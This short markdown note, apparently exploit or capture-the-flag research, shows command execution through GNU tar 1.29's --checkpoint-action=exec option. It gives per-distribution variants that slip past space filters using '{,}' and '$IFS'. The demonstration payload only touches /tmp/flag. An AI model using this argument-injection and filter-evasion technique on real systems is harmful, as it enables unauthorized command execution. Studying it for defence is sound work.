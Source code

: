 ## archlinux (tar 1.29)
The most reliable version, allows for `{,}` format:
```
tar tf /proc/self/status --checkpoint=1 --checkpoint-action=exec='{touch,/tmp/flag}'
```

## debian (tar 1.29)
The second most useful, allows for `$IFS`:
```
tar tf /proc/self/status --checkpoint=1 --checkpoint-action=exec='touch$IFS/tmp/flag'
```

## ubuntu (tar 1.29)
Annoyingly difficult, does not allow `{,}` or `$IFS`:
```
tar tf /proc/self/status --checkpoint=1 --checkpoint-action=exec='touch /tmp/flag'
```
